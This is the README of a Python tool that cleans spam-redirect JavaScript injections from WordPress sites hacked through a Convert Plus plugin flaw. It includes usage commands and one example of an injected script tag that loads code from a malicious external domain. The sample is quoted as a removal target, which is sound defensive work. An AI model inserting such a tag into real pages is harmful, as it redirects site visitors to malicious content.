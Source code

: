 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada and the vulnurability which has been found by Wordfence have caused numerous sites to be hacked and their pages now redirects to various malicious and spam pages. 
You can read the details from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that has occured after this vulnurability and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. Instead of using backups for this using this script and scanning for shells through Wordfence can be an option.

## Example Usage

Script is written for Python 2.7 + and logs the altered files as well so you can use these logs to make sure they are clean for manual inspection.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

### Example Cleanup Operation

```sh
python cleanup.py your_domain.com
```

or entering a whole path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.

